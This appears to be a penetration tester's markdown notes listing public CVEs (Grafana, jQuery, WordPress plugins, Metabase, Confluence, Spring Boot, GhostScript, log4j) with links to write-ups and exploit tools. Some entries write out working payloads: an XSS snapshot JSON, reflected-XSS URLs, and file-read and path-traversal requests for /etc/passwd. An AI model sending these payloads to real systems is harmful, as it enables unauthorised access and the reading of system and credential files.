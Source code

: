 ## CVE-2020-11022/CVE-2020-11023

https://vulnerabledoma.in/jquery_htmlPrefilter_xss.html

## CVE-2020-11110
https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html

* version : Grafana v6.2.5

* authentication : v6.2.5 not required to be authenticated

* send post request to /api/snapshots with the following json body
```
{"dashboard":{"annotations":{"list":[{"name":"Annotations & Alerts","enable":true,"iconColor":"rgba(0, 211, 255, 1)","type":"dashboard","builtIn":1,"hide":true}]},"editable":true,"gnetId":null,"graphTooltip":0,"id":null,"links":[],"panels":[],"schemaVersion":18,"snapshot":{"originalUrl":"javascript:alert('Revers3c')","timestamp":"2020-03-30T01:24:44.529Z"},"style":"dark","tags":[],"templating":{"list":[]},"time":{"from":null,"to":"2020-03-30T01:24:53.549Z","raw":{"from":"6h","to":"now"}},"timepicker":{"refresh_intervals":["5s","10s","30s","1m","5m","15m","30m","1h","2h","1d"],"time_options":["5m","15m","1h","6h","12h","24h","2d","7d","30d"]},"timezone":"","title":"Dashboard","uid":null,"version":0},"name":"Dashboard","expires":0}
```





## CVE-2021-24169
WordPress Plugin Advanced Order Export For WooCommerce 3.1.7 - Reflected Cross-Site Scripting (XSS)

```
wp-admin/admin.php?page=wc-order-export&tab=</script><script>alert(1)</script>
```

## CVE-2021-40875 
Improper Access Control in Gurock TestRail versions ≤ 7.2.0.3014 results in sensitive file exposure

* /files.md5 file on the client side of a Gurock TestRail application, disclosing a full list of application files and the corresponding file paths. The corresponding file paths can be tested, and in some cases, result in the disclosure hardcoded credentials, API keys, or other sensitive data.


## CVE-2021-26084 
Remote Code Execution on Confluence Servers

https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md

## CVE-2021–24563 Unauthenticated Stored XSS [Frontend Uploader <= 1.3.2]
https://medium.com/pentesternepal/cve-2021-24563-unauthenticated-stored-xss-frontend-uploader-1-3-2-8522e0890833


## CVE-2021-38647 is an unauthenticated RCE vulnerability effecting the OMI agent as root.
https://github.com/horizon3ai/CVE-2021-38647

## Metabase 敏感信息泄露 CVE-2021-41277
```
GET /api/geojson?url=file:/etc/passwd HTTP/1.1
Host:
```








## Full Disclosed reports
https://seclists.org/fulldisclosure/




## CVE Finder
https://git-cve.system00-sec.com/?cve=CVE-2021-1056

## RCE 0-day for GhostScript 9.50 - Payload generator
https://github.com/duc-nt/RCE-0-day-for-GhostScript-9.50

## (CVE-2021-41765 | CVE-2021-41950 | CVE-2021-41951) 
https://www.horizon3.ai/multiple-vulnerabilities-in-resourcespace/

## Tool that helps to embed a PostScript file into a PDF in a way that GhostScript will run the PostScript code during the PDF processing
https://github.com/neex/ghostinthepdf

## CVE-2021-21234 Spring Boot Actuator Logview Directory Traversal
https://pyn3rd.github.io/2021/10/25/CVE-2021-21234-Spring-Boot-Actuator-Logview-Directory-Traversal/
```
http://localhost:8887/manage/log/view?filename=/etc/passwd&base=../../../../../
```


## CVE-2021-39316 WordPress Plugin DZS Zoomsounds 6.45 - Arbitrary File Read (Unauthenticated)
https://cxsecurity.com/issue/WLB-2021120012
```
http://localhost/MYzoomsounds/?action=dzsap_download&link=../../../../../../../../../../etc/passwd
```

## log4j
https://github.com/0xInfection/LogMePwn
https://github.com/adilsoybali/Log4j-RCE-Scanner


## 
https://sploitus.com/?query=cve#exploits



